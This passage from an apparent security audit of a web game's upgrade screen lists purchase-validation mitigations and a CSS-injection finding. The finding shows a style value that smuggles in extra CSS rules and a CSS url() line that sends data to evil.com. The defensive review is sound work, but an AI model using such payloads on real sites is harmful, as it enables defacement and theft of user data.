 ### Required Mitigations:
1. **Server-Side Validation**: All purchases validated on server
2. **Checksum Verification**: Game state integrity checks
3. **Rate Limiting**: Maximum purchases per time period
4. **Audit Logging**: Track all upgrade purchases

---

## 🛡️ Security Issue #2: Injection Attacks via Dynamic Styling
**Type**: Cross-Site Scripting (XSS)  
**Risk Level**: HIGH

### Vulnerability
Dynamic style generation without proper sanitization:

```typescript
// styles.ts - Potential injection points
color: GAME_CONSTANTS.GOLD_COLOR,  // If this comes from user input
background: `linear-gradient(135deg, ${color}40, ${color}20)`,
```

### Exploit Scenarios:
1. **CSS Injection**:
   ```javascript
   // If GOLD_COLOR or other style values are user-controllable:
   GOLD_COLOR = "red; } body { display: none; } .hack {"
   // Results in CSS that can hide/modify entire page
   ```

2. **Style-based Data Exfiltration**:
   ```css
   /* Attacker could inject CSS that sends data to external server */
   .upgrade-screen { background: url(http://evil.com/steal?data=...); }
   ```

### Impact:
- **UI Manipulation**: Attacker can hide/modify interface
- **Data Theft**: Sensitive game data leaked
- **Phishing**: UI replaced with malicious content

### Required Mitigations:
1. **Style Sanitization**: Validate all dynamic style values
2. **CSP Headers**: Content Security Policy to prevent external resources
3. **Static Styles**: Use pre-defined style constants only

---

## 🛡️ Security Issue #3: Component Import Manipulation
**Type**: Code Injection / Supply Chain  
**Risk Level**: MEDIUM-HIGH
